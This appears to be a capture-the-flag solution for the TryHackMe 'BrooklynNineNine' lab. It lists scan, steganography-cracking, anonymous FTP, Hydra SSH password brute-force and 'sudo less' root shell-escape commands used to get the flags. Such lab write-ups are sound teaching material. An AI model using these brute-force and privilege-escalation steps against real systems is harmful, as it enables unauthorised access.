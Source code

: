 # BrooklynNineNine - solution
- Link: https://tryhackme.com/room/brooklynninenine
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,80 <IP> -oN ports`

## Port 80 - website recognition
- `wget http://<IP>/brooklyn99.jpg` to download the img
- `stegcracker brooklyn99.jpg` to crack the passphrase
- `steghide extract -sf brooklyn99.jpg`
- Extracted credentials, saved them in `/credentials` 

## Port 21 - ftp-anon: anonymous FTP login allowed
- `cd content`
- `ftp <IP>` (name: `anonymous`, password: `<Enter>`)
- Inside the FTP shell:
  - `get note_to_jake.txt` to download the resource
  - `cat note_to_jake.txt` 
  - Found likely users: `amy` `holt` `jake`

## Port 22 - SSH 
- `hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP>`
- Cracked `jake`'s SSH password, saved in `/credentials` 
- `ssh jake@10.10.67.99` (password: `<password`)
- Inside the SSH shell:
  - `pwd` (we are into `/jake`)
  - `cd ..` to come back into `/home` folder
  - Found `/amy` `/holt` `/jake` folders
  - `cd holt`
  - `cat user.txt` 
    - Found the `USER FLAG`
  
## Privileges escalation
- Inside the SSH shell:
  - Couldn't access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries with the SUID bit set
  - `sudo -l` to discover which binaries the active user can run as superuser
  - Found `/usr/bin/less`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- Inside the SSH shell:
  - `sudo less /etc/profile`
  - `!/bin/sh`
  - `whoami` to check if I became the root user 
  - `cd /root`
  - `cat root.txt` 
    - Found the `ROOT FLAG`